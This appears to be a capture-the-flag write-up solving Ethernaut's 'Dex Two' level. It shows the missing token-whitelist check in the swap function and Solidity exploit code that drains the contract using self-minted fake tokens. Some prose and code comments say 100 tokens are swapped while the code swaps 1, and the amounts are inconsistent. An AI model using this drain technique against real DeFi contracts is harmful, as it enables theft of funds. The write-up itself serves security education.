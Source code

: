 ```yaml
---
title: 'Ethernaut Challenge #22 Solution — Dex Two'
excerpt: This is Part 22 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to steal all the tokens inside the Dex. The level starts with the Dex owning (as liquidity) 100 tokens of both `token1` and `token2` while we own just 10 of each.
coverImage:
  url: '/assets/blog/ethernaut/dex2.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-12T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/dex2.svg'
---
```


This is Part 22 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.medium.com/lets-play-ethernaut-ctf-learning-solidity-security-while-playing-1678bd6db3c4) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #22: Dex Two

> This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.
>
> You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.
>
> You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.
>
> > Things that might help:
>
> - How has the `swap` method been modified?
> - Could you use a custom token contract in your attack?
>
> Level author(s): [Scott Tsai](http://scottt.tw/)

The goal of this challenge, like the previous one, is to drain both `token1` and `token2` from the `DexTwo` contract.

## Study the contracts

The `DexTwo` contract is much identical to the one from the previous `Dex` challenge, the only thing that changes are some function names and the content of the `swap` function.

Other than the `DexTwo` contract that behave like a Dex, we also have `SwappableTokenTwo`, an ERC20 token implementation.

Let's see the content of the `swap` function

```solidity
function swap(
    address from,
    address to,
    uint256 amount
) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

Can you see what's missing compared to the previous version of the same function on `Dex` contract? It's a critical check.

The current `swap` function is not checking that `from` and `to` are actually the whitelisted `token1` and `token2` tokens handled by the `DexTwo` contract.

This is the check that was present in the previous version of the function: `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`

What does this mean? This allows an attacker to call the `swap` function, selling an **arbitrary** `from` token to get the "real" `to` token from the Dex. This mean that we could create a freshly new `UselessERC20` token totally owned and managed by us (we can mint, burn, do whatever we want) and gain some `token1` or `token2` for free.

Can we drain the `DexTwo` contract `token1` and `token2` with one call each? To do so, we need to find the correct amount of `fakeToken` to sell to get back 100 `token1`.

Let's do some math, looking at the `getSwapAmount` function that calculate the swap price:

```
100 token1 = amountOfFakeTokenToSell * DexBalanceOfToken1 / DexBalanceOfFakeToken
100 token1 = amountOfFakeTokenToSell * 100 / DexBalanceOfFakeToken
```

We have two variables that we can control. We know for sure that `DexBalanceOfFakeToken` must be **> 1** otherwise the transaction will revert because of **division by 0**. If we send 1 `FakeToken` to `DexTwo` we would have

```
100 token1 = amountOfFakeTokenToSell * 100 / 1
1 token1 = amountOfFakeTokenToSell
```

So by sending `1 FakeToken1` to the `DexTwo` contract to give it some liquidity, we can swap 100 `FakeToken` to get back 100 `token1`. After that, we just need to repeat the same operation with **another** instance of `FakeToken2` and drain all the `token2` from the Dex.

## Solution code

Here's the code used in the test case to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Deploy a fake token based on the SwappableTokenTwo contract
    // Mint 10k tokens and send them to the player (msg.sender)
    SwappableTokenTwo fakeToken1 = new SwappableTokenTwo(address(level), "Fake Token 1", "FKT1", 10_000);
    SwappableTokenTwo fakeToken2 = new SwappableTokenTwo(address(level), "Fake Token 1", "FKT1", 10_000);


    // Approve the dex to manage all of our token
    token1.approve(address(level), 2**256 - 1);
    token2.approve(address(level), 2**256 - 1);
    fakeToken1.approve(address(level), 2**256 - 1);
    fakeToken2.approve(address(level), 2**256 - 1);

    // send 1 fake token to the DexTwo to have at least 1 of liquidity
    ERC20(fakeToken1).transfer(address(level), 1);
    ERC20(fakeToken2).transfer(address(level), 1);

    // Swap 100 fakeToken1 to get 100 token1
    level.swap(address(fakeToken1), address(token1), 1);
    // Swap 100 fakeToken2 to get 100 token2
    level.swap(address(fakeToken2), address(token2), 1);

    // Assert that we have drained the Dex contract
    assertEq(token1.balanceOf(address(level)) == 0 && token2.balanceOf(address(level)) == 0, true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [DexTwo.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/DexTwo.t.sol)

## Further reading

- [OpenZeppelin: The Dangers of Price Oracles in Smart Contracts](https://www.youtube.com/watch?v=YGO7nzpXCeA)
- [OpenZeppelin: Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)
- [samczsun: So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)
- [cmichel: Pricing LP tokens | Warp Finance hack](https://cmichel.io/pricing-lp-tokens/)
- [Ethereum Docs: Oracles](https://ethereum.org/en/developers/docs/oracles/)
- [Chainlink: What Is a Blockchain Oracle?](https://chain.link/education/blockchain-oracles)
- [Uniswap TWAP](https://docs.uniswap.org/protocol/concepts/V3-overview/oracle)
- [Consensys: Integer Division](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/integer-division/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
